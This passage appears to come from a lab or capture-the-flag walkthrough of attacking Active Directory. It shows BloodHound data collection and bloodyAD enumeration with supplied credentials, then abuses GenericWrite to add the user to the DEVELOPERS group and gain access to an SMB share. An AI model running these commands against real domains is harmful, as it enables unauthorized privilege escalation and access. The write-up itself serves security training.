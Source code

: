 ```bash
bloodhound-ce-python -ns $IP -u $USERAD -p $PASS -c All --zip -d $DOMAIN
```

**Command Explanation:**
- `-ns`: Nameserver IP for DNS resolution
- `-u`: Username for authentication
- `-p`: Password for authentication
- `-c All`: Collect all available data
- `--zip`: Compress the output
- `-d`: Domain name

This command will collect comprehensive Active Directory data including users, groups, computers, and their relationships.

Looking at the outbound permissions for our user `levi.james`, we can see that he has `GenericWrite` permissions on the `DEVELOPERS` group:

![BloodHound Collection](file-20250806131712005.png)

### LDAP Enumeration with bloodyAD

Now let's enumerate what permissions our current user has using the `bloodyAD` tool:

```bash
bloodyAD -d $DOMAIN --host $IP -u $USERAD -p $PASS get writable
```

![LDAP Enumeration Results](file-20250927214535212.png)

**Key Finding:** User `levi.james` has `GenericWrite` permissions on the `DEVELOPERS` group, which is a significant privilege escalation opportunity.

### Group Membership Manipulation

We can add ourselves to the DEVELOPERS group to gain additional privileges:

```bash
bloodyAD --host $HOSTNAME -u $USERAD -p $PASS -d $DOMAIN --dc-ip $IP add groupMember "DEVELOPERS" $USERAD
```

**Result:**
```bash
[+] levi.james added to DEVELOPERS
```

**Command Explanation:**
- `add groupMember`: Adds a user to a group
- `"DEVELOPERS"`: Target group name
- `$USERAD`: User to add to the group

### SMB Share Access

Being a member of the DEVELOPERS group allows us to see the DEV share:

![SMB Share Access](file-20250806132220627.png)
